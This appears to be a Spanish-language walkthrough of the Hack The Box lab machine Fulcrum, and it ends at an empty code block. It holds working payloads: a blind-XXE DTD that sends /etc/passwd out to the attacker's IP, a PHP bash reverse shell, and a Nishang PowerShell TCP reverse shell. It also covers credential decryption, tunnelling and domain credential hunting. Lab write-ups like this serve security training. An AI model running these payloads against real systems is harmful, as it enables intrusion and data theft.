## Box Info

| Name                  | Fulcrum          | 
| :-------------------- | ---------------: |
| Release Date          | 25 Nov, 2017     |
| OS                    | Windows          |
| Rated Difficulty      | Insane           |

## Recon

```bash
sudo nmap -p- --open --min-rate 5000 -n -vvv -Pn 10.10.10.62 -oG allPorts
nmap -sCV -p 4,22,80,88,9999,5642 10.10.10.62 -oN targeted
```

```bash
PORT      STATE SERVICE VERSION
4/tcp     open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
80/tcp    open  http    nginx 1.18.0 (Ubuntu)
|_http-title: 502 Bad Gateway
|_http-server-header: nginx/1.18.0 (Ubuntu)
88/tcp    open  http    nginx 1.18.0 (Ubuntu)
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: phpMyAdmin
9999/tcp  open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: 502 Bad Gateway
56423/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Site doesn't have a title (application/json;charset=utf-8).
|_http-server-header: Fulcrum-API Beta
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Web 80



### Web 88



### Web 4



Si hacemos hove sobre try again podemos ver que hace una redireccion a la pagina home



### Web 56423



Volvemos a la web `10.10.10.62:4`


#### Upload File


```
http://10.10.10.62:4/index.php?page=../../../../../../../etc/hosts

http://10.10.10.62:4/index.php?page=../../../../../../../etc/hosts%00

http://10.10.10.62:4/index.php?page=....//....//....//....//....//....//....//etc/hosts%00

## RFI

http://10.10.10.62:4/index.php?page=http://10.10.14.20/test
```

#### Fuzzing Parameter

```zsh
ffuf -u "http://10.10.10.62/" -H "Host: http://10.10.10.62:4/index.php?FUZZ=home" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -fc 400
```


Volviendo con la web de subida de archivos, sabemos que trabaja con paginas web php podriamos hacer fuzzing para averiguar si hay mas paginas web con esa extension.

```zsh
feroxbuster -u http://10.10.10.62:4/ -x php
```



Al parecer la web `upload.php` es estatica en todo momento nos muetra `Sorry the file upload failed`



Volviendo a la pagina Web del puerto `56423` con burpsuite al parecer se puede manipular el parametro `Pong` con `BurpSuite` por lo que se puede derivar a un `XXE` (XML external entity)



## Blind XXE to exfiltrate data

Primero intente con un xxe sencillo pero no mostraba nada sin mover `Ping`, entonces pase a un blind xxe que posiblemente se ejecutaba el xxe pero no lo mostraba, intente con una injeccion sencilla `<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://192.168.1.1/test"> % xxe;]>` y recibi la consulta en mi maquina por apache.



Para obtener o exfiltrar informacion como el `/etc/passwd` tomaremos como referencia algunas tecnicas de Blind XXE de hacktricks o de PortSwigger

[XXE - Blind (PortSwigger)](https://portswigger.net/web-security/xxe/blind)

[XXE - XML - External Entity](https://book.hacktricks.wiki/en/pentesting-web/xxe-xee-xml-external-entity.html?highlight=xxe#hidden-xxe-surfaces)

```zsh
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://192.168.1.1/evil.dtd"> % xxe;]>
```

Creamos un archivo del cual descargara la maquina e interpretara para devolvernos el archivo que le especificamos `/etc/passwd` en base64

- evil.dtd

```js
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://10.10.14.20/?file=%file;'>">
%eval;
%exfil;
```

Ejecutamos en BurpSuite


Recibimos el /etc/passwd en base64



```bash
echo "{BASE64}" | base64 --decode
```



Intente con la ruta de `nginx` para listar todas las rutas webs dentro de la maquina

```zsh
/etc/nginx/sites-available/default
/etc/nginx/sites-available/default.conf
/etc/nginx/sites-enabled/default
##
/proc/self/sched_debug
/proc/sched_debug
```

## Blind XXE + SSRF




```xml
<!DOCTYPE test [ <!ENTITY % xxe SYSTEM "http://127.0.0.1:4/index.php?page=http://10.10.14.20/shell"> %xxe; ]>

<test>%xxe;</test>
```

Vemos que transfiere el archivo pero junto con la extension php, quiere decir que interpreta php, podremos crear una shell inversa para ganar una shell como www-data.



```php
<?php
  system("bash -c 'bash -i >& /dev/tcp/10.10.14.20/443 0>&1'");
?>
```



### Treatment TTy

```bash
script /dev/null -c bash
export TERM=xterm
export SHELL=bash
Ctrl+z
stty raw echo; fg
reset xterm
stty rows 81 columns 137 ## Set to your size tty
```

Podemos ver el codigo de la pagina web de `http://10.10.10.62:4/index.php?page=home`



`/var/www/`



## VM Windows

`hostname -I`



Posiblemente  la 192.168.122.1 podria ser la IP del host para la red virtual

- Host Discovery Bash Scripting

```bash
for i in {1..255};do (ping -c 1 192.168.122.$i|grep "bytes from"|cut -d' ' -f4|tr -d ':' &);done
```

```bash
192.168.122.1 -- HOST
192.168.122.228 -- Windows
```



Creamos un script para enumerar los puertos abiertos en `/tmp`

- Port Discovery Bash Scripting

```sh
#!/bin/bash

hosts=("192.168.122.228")

for host in ${hosts[@]}; do
        echo -e "\n[+]Scanning ports in $host\n"
        for port in $(seq 1 10000); do
                timeout 1 bash -c "echo '' > /dev/tcp/$host/$port" 2> /dev/null && echo -e "\t[+] Port: $port - OPEN!" &
        done; wait
done
```

`base64 -w 0 portScan.sh`

```bash
echo "IyEvYmluL2Jhc2gKCmhvc3RzPSgiMTkyLjE2OC4xMjIuMjI4IikKCmZvciBob3N0IGluICR7aG9zdHNbQF19OyBkbwogIGVjaG8gLWUgIlxuWytdU2Nhbm5pbmcgcG9ydHMgaW4gJGhvc3RcbiIKICBmb3IgcG9ydCBpbiAkKHNlcSAxIDEwMDAwKTsgZG8KICAgIHRpbWVvdXQgMSBiYXNoIC1jICJlY2hvICcnID4gL2Rldi90Y3AvJGhvc3QvJHBvcnQiIDI+L2Rldi9udWxsICYmIGVjaG8gLWUgIlx0WytdIFBvcnQ6ICRwb3J0IC0gT1BFTiEiICYKICBkb25lCiAgd2FpdApkb25lCg==" | base64 -d > portScan.sh
```



```bash
[+] Port: 80 - OPEN!
[+] Port: 5985 - OPEN!
```

`www-data@fulcrum:~/Uploads $ cat Fulcrum_Upload_to_Corp.ps1`

```powershell
# TODO: Forward the PowerShell remoting port to the external interface
# Password is now encrypted \o/

$1 = 'WebUser'
$2 = '77,52,110,103,63,109,63,110,116,80,97,53,53,77,52,110,103,63,109,63,110,116,80,97,53,53,48,48,48,48,48,48' -split ','
$3 = '76492d1116743f0423413b16050a5345MgB8AEQAVABpAHoAWgBvAFUALwBXAHEAcABKAFoAQQBNAGEARgArAGYAVgBGAGcAPQA9AHwAOQAwADgANwAxADIAZgA1ADgANwBiADIAYQBjADgAZQAzAGYAOQBkADgANQAzADcAMQA3AGYAOQBhADMAZQAxAGQAYwA2AGIANQA3ADUAYQA1ADUAMwA2ADgAMgBmADUAZgA3AGQAMwA4AGQAOAA2ADIAMgAzAGIAYgAxADMANAA=' 
$4 = $3 | ConvertTo-SecureString -key $2
$5 = New-Object System.Management.Automation.PSCredential ($1, $4)

Invoke-Command -Computer upload.fulcrum.local -Credential $5 -File Data.ps1
```

- Equipo: `upload.fulcrum.local`

## Upload.Fulcrum.Local | Shell

#### Deccrypting PSCredential w PowerShell

`pwsh`

[powershell-decode-system-security-securestring-to-readable-password](https://stackoverflow.com/questions/7468389/powershell-decode-system-security-securestring-to-readable-password)

```powershell
$1 = 'WebUser'
$2 = '77,52,110,103,63,109,63,110,116,80,97,53,53,77,52,110,103,63,109,63,110,116,80,97,53,53,48,48,48,48,48,48' -split ','
$3 = '76492d1116743f0423413b16050a5345MgB8AEQAVABpAHoAWgBvAFUALwBXAHEAcABKAFoAQQBNAGEARgArAGYAVgBGAGcAPQA9AHwAOQAwADgANwAxADIAZgA1ADgANwBiADIAYQBjADgAZQAzAGYAOQBkADgANQAzADcAMQA3AGYAOQBhADMAZQAxAGQAYwA2AGIANQA3ADUAYQA1ADUAMwA2ADgAMgBmADUAZgA3AGQAMwA4AGQAOAA2ADIAMgAzAGIAYgAxADMANAA=' 
$4 = $3 | ConvertTo-SecureString -key $2
$5 = New-Object System.Management.Automation.PSCredential ($1, $4)
```

```powershell
 $Ptr = [System.Runtime.InteropServices.Marshal]::SecureStringToCoTaskMemUnicode($4)
$result = [System.Runtime.InteropServices.Marshal]::PtrToStringUni($Ptr)      
[System.Runtime.InteropServices.Marshal]::ZeroFreeCoTaskMemUnicode($Ptr)
$result
```


```powershell
webUser:M4ng£m£ntPa55
```

## Port Forwarding (5985)
### Evil-WinRM

- kali

```bash
./chisel server -p 5657 --reverse
```

- Victim Machine

```bash
./chisel client 10.10.14.20:5657 R:5985:192.168.122.228:5985
```

- Evil-WinRM

```zsh
evil-winrm -u 'webuser' -p 'M4ng£m£ntPa55' -i 127.0.0.1
```

`ipconfig /all`



Sabemos que fulcrum.local es la 182.168.122.130

```
ping -n 2 upload.fulcrum.local

Pinging fulcrum.local [192.168.122.130] with 32 bytes of data:
Request timed out.
Request timed out.

Ping statistics for 192.168.122.130:
    Packets: Sent = 2, Received = 0, Lost = 2 (100% loss),
```

- Inetpub esta relacionado con Internet Information Services (IIS) componente que permite la gestion de servidores web en Windows



- Information Leakage Domain User password



El archivo web.config contiene credenciales.

LDAP: `dc.fulcrum.local`

```zsh
User = FULCRUM\LDAP
Password = PasswordForSearching123!
```

## Pivoting
### PowerView

[PowerShellMafia - PowerView.ps1](ttps://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)

```powershell
Import-Module .\PowerView.ps1
```

Mirando algunos ejemplos para enumerar usuarios, usare al function `Get-DomainUser`



```powershell
$SecPassword = ConvertTo-SecureString 'PasswordForSearching123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('FULCRUM\LDAP', $SecPassword)
Get-DomainUser -Credential $Cred
```



```powershell
Get-DomainUser -Credential $Cred | select logoncount, samaccounttype, name
```

```powershell
logoncount samaccounttype name
---------- -------------- ----
         6    USER_OBJECT Administrator
         0    USER_OBJECT Guest
         0    USER_OBJECT krbtgt
         3    USER_OBJECT ldap
         0    USER_OBJECT 923a
         1    USER_OBJECT BTables
```

Existe un usuario `923a` (curioso) miraremos este usuario 

```powershell
Get-DomainUser -Credential $Cred 923a
```



Podemos ver su common name  como `Domain Admins` siendo el usuario con mayor o maximo privilegios de Dominios.

```powershell
Get-DomainUser -Credential $Cred BTables
```



Para el usuario BTables tenemos la contraseña FileServerLogon, quiza nos indica que el server esta como FILE es decir file.fulcrum.local

```powershell
BTables:++FileServerLogon12345++
```



Si le hacemos ping nos indica una nueva ip para file
## Execution 

```powershell
$pass = ConvertTo-SecureString '++FileServerLogon12345++' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('FULCRUM\btables', $pass)
Invoke-Command -ComputerName file.fulcrum.local -Credential $cred -ScriptBlock { whoami }
```



```
Windows IP Configuration


Ethernet adapter Ethernet:

   Connection-specific DNS Suffix  . :
   Link-local IPv6 Address . . . . . : fe80::7951:5c86:6630:5e64%3
   IPv4 Address. . . . . . . . . . . : 192.168.122.132
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 192.168.122.1
```

### FILE.FULCRUM.LOCAL | Shell

[Invoke-PowerShellTcpOneLine.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcpOneLine.ps1)

```zsh
Invoke-Command -ComputerName file.fulcrum.local -Credential $cred -ScriptBlock { $client = New-Object System.Net.Sockets.TCPClient('10.10.14.20',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close() }
```

`rlwrap nc -nlvp 443`



```powershell
netstat -ano
```

Puerto 135: Smb



```powershell
net user 923a /Domain

La solicitud se procesará en un controlador de dominio para el dominio fulcrum.local.

```
[get-smbshare](https://learn.microsoft.com/en-us/powershell/module/smbshare/get-smbshare?view=windowsserver2025-ps)
```powershell
Get-SMBShare
```

```
Name   ScopeName Path Description  
----   --------- ---- -----------  
ADMIN$ *              Remote Admin 
C$     *              Default share
IPC$   *              Remote IPC
```

- **IPC$**: también se conoce como una **conexión de sesión nula**. Con esta sesión, Windows permite a los usuarios anónimos realizar determinadas actividades, como enumerar los nombres de las cuentas de dominio y los recursos compartidos de red

```powershell
net use \\dc.fulcrum.local\IPC$ /user:fulcrum\btables ++FileServerLogon12345++
```

```powershell
net view \\dc.fulcrum.local
```

```powershell
net user 923a /Domain

User name                    923a
Full Name                    
Comment                      
User's comment               
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            5/8/2022 12:02:38 AM
Password expires             Never
Password changeable          5/9/2022 12:02:38 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script                 
User profile                 
Home directory               
Last logon                   Never

Logon hours allowed          All

Local Group Memberships      
Global Group memberships     *Domain Admins        *Domain Users         
The command completed successfully.
```

Listaremos el recurso compartido sysvol

```
net use \\dc.fulcrum.local\sysvol /user:fulcrum\btables ++FileServerLogon12345++
ls \\dc.fulcrum.local\sysvol\fulcrum.local
ls \\dc.fulcrum.local\sysvol\fulcrum.local\scripts
```

En la carpeta script vemos cientos de scripts con diferentes usuarios y contraseñas

```powershell
Select-String -Path "\\dc.fulcrum.local\sysvol\fulcrum.local\scripts\*.ps1" -Pattern Administrator
Select-String -Path "\\dc.fulcrum.local\sysvol\fulcrum.local\scripts\*.ps1" -Pattern 923a
```



```powershell
